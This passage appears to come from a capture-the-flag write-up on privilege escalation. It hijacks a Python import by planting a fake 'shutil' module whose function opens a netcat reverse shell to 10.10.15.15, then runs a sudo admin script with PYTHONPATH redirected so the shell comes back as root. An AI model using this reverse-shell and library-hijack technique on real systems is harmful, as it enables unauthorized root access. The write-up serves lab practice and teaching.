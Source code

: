 We can see at the top it imports a function from a python module called `shutil`, we can create a fake module and change the path, so it executes our module as root.

First, we need to create a fake shutil module with a `make_archive()` function so it is imported. I put this file in a folder called `fake_shutil` in /tmp

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c): # We need the 3 parameters just like the real function, even though they won't be used
        os.system("nc -e '/bin/bash' 10.10.15.15 4444")
```

Then, we just need to setup a listener locally for when the target connects.

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, we need to run the admin tasks script with the specified python path of our fake module so it gets executed instead of the real one.

```bash
sudo PYTHONPATH=/tmp/fakeshutil /opt/scripts/admin_tasks.sh
```

When we run the script, we select option 6 because that was the function that called the python script.

![run_script](images/run_script.png)

And we can see that we got a connection on our listener:

![root_shell](images/root_shell.png)

## Root.txt

We find the root flag in /root

![root_flag](images/root_flag.png)